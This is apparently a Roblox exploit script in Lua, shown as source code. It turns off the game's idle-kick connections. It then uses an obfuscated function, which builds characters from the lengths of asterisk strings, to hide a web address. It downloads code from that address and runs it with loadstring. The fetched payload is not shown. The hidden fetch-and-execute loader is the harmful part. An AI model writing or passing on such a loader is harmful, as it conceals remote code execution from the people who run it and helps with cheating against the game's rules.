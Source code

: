 function exwJZLsriCjjlTLNCyWDTmaTptwYnnCXvMjlEyZyTwNVqdmcUwKsuwDVbOTUxaasOuiDKgByHds(c)
tab={}
for i = 1,#c do
x=string.len(c[i]) 
y=string.char(x)
table.insert(tab,y)
end
x=table.concat(tab)
return x
end 


oi = function()

for _, v in pairs(getconnections(game.Players.LocalPlayer.Idled)) do
    v:Disable()
end


loadstring(game:HttpGet(exwJZLsriCjjlTLNCyWDTmaTptwYnnCXvMjlEyZyTwNVqdmcUwKsuwDVbOTUxaasOuiDKgByHds({'********************************************************************************************************','********************************************************************************************************************','********************************************************************************************************************','****************************************************************************************************************','*******************************************************************************************************************','**********************************************************','***********************************************','***********************************************','****************************************************************************************************************','*************************************************************************************************','*******************************************************************************************************************','********************************************************************************************************************','*****************************************************************************************************','******************************************************************************************************','*************************************************************************************************************************','**********************************************','*************************************************************************************************','****************************************************************************************************************','****************************************************************************************************************','***********************************************','**********************************************************************************************************','*******************************************************','*********************************************************************************************************************','************************************************************************************','*********************************************************************************************************************','****************************************************************************************************************','******************************************************************************************************************','**************************************************************************************************************','***********************************************','******************************************************************************************************************','*************************************************************************************************','***********************************************************************************************************************'})))()